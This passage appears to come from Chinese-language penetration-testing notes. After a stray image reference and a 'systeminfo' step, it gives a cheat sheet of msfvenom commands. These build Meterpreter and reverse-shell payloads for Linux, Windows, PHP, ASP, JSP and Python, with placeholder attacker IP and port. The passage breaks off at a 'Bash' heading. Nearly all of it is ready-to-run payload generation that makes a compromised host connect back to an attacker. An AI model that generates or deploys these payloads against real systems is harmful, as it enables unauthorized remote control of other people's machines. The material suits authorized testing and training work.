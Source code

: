 <img src="image/image-20240306212839542.png" alt="image-20240306212839542" style="zoom:67%;" />

shell systeminfo 查看系统信息

#### 3.msf上线

先用kali选择目标机对应的操作系统的木马

```
Linux

linux/x86/meterpreter/reverse_tcp操作系统对应的插件
lhost代表攻击机的本地ip lport攻击机的监听端口（一般就是本机）

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=< Your IP> LPORT=< Your Port> -f elf > shell.elf

Windows

msfvenom -p windows/meterpreter/reverse_tcp LHOST=< Your IP> LPORT=< Your Port> -f exe > shell.exe

PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=< Your IP> LPORT=< Your Port> -f raw > shell.php

ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=< Your IP> LPORT=< Your Port> -f asp > shell.asp

JSP

msfvenom -p java/jsp_shell_reverse_tcp LHOST=< Your IP> LPORT=< Your Port> -f raw > shell.jsp

Python

msfvenom -p cmd/unix/reverse_python LHOST=< Your IP> LPORT=< Your Port> -f raw > shell.py

Bash

```